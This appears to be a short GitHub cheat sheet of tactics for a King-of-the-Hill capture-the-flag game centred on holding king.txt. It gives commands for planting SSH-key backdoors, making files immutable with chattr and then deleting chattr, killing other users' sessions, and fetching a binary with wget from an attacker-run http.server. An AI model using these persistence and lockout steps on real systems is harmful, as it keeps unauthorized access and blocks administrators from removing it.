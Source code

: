 Stragegy 

`try to get into root and echo your name on king.txt` `this gives you contant point which is better than finding flag`

Scan 

`do rustscan than namp` 
 `rustscan gives quicker scan result`
 
 backdoor 

`always make a backdoor once you get into the shell` 
 `incase someone kill you on shell` `or` `shell got disconnected you have your backdoor`
 
 how to create backdoor

`generate ssh keygen` `ssh-keygen`
 
 defend you ssh key
 
 `if someone finds your ssh there is high chance that they delete your key` `so it's better if you defend your ssh key`
 
 `try to put your ssh on some unexpected place like /etc /usr`
 
 `make your ssh immutable so that no one can delete` `with following command`
 
      chattr -R +i .ssh
      
 `now you likely to do is to delete the chattr binary from /etc/bin so that no one can make it mutable again`
 
 *Ultimate Defences*
 
 `now you need to defend your position`
 
`try the same` 
`once you put your name on king.txt` `make it immutable` `with the command chattr just like above on ssh` 

    chattr +i /root/king.txt
    
`now delete the chattr again` 

or 

Run a while loop to echo your name on king.txt so that if any one even change the name then after a second that king.txt again contains your name again

    while true; do echo "prakashchand72" > king.txt ; done 
 
now you can start find other flag

    find \ -name flag.txt 2>/dev/null
    
sometime you can also kill other user from shell
    
`type`

    who

`this shows the ip and pty number`
`find which is your pty and seeing your ip` `and start kill others pty`

    ps aux | grep "pty"

or

    ps aux | grep "ssh"
    
`now get the proccess of id of other and kill them`

    kill {pid no here}
    
commmunicate with others

`you can also broadcast the message to others on the shell with the wall command`

    wall hello this is prakash
    
Breaking the Defence 

 `if you got situation when someone does` `chattr +i king.txt` `then you can uplaod your own chattr and make it mutable again`
 
 `on your local machine go to your /usr/bin and transfer the file of chattr to the machine`
 
`something like` 

    python3 -m http.server 8080
    
    wget ip:8080/chattr 
    
    chmod +x chattr 
    
 `now on your king.txt`
 
    chattr -i king.txt

*Unbreakable Defence own exploit*

    while true; do "prakashchand72 is the king"; done 
    
    
 cc@ prakashchand72 
